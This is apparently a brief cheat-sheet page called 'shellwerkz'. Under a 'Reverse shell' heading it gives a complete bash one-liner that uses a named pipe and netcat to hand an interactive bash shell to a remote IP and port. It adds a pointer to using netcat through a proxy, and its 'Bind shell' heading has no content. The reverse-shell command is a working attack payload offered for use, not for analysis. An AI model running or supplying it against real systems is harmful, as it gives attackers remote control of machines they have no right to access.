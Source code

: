 # shellwerkz

# Reverse shell
## bash
```bash
mkfifo /tmp/ffifo; /bin/bash -i < /tmp/ffifo 2>&1 | nc $remote_ip $port > /tmp/ffifo
```
You may need to use [`nc` with a proxy](./netcat.md).

# Bind shell
